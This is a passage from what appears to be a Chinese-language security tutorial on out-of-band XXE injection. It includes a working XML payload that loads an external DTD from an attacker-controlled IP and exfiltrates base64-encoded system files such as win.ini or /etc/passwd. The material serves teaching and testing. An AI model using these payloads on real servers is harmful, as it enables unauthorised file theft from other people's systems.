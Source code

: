 访问时，存在漏洞的服务器会读出`c:/windows/win.ini`内容并且进行base64编码，发送给攻击者服务器上的test.php，然后把读取的数据保存到本地的test.txt中。

![image-20211128183520495](XXE.assets/image-20211128183520495.png)

![image-20211128183559032](XXE.assets/image-20211128183559032.png)

**方法二：**

思路就是在没有回显的时候，我们将读取的文件带出来，举一个例子就是，我们如果将/etc/passwd文件赋给实体test，那么我们在访问`http://192.168.220.128?%test;`时，如果有报错信息可以查看报错信息有没有，还可以查看我们服务器上的日志文件，日志文件会保存/etc/passwd的文件内容

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE message [    
<!ENTITY % remote SYSTEM "http://192.168.220.128/evil.dtd">
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=c:/windows/win.ini">
%remote;
]>
<user><username>&send;</username><password>admin</password></user>
```

evil.dtd的内容，**内部的%号要进行实体编码成`&#x25`,因为在evil.dtd的实体中不能有%。**
